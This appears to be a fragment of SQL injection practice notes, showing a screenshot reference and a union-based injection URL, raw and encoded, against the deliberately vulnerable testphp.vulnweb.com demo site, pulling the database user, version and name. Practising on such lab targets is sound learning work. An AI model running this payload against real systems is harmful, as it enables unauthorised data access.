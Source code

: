 ![image-20211013144431054](images/image-20211013144431054.png)



```
http://testphp.vulnweb.com/listproducts.php?cat=2 union select 1,user(),3,4,3,4,version(),8,database(),10,11
```

http://testphp.vulnweb.com/listproducts.php?cat=2%20union%20select%201,user(),3,4,3,4,version(),8,database(),10,11
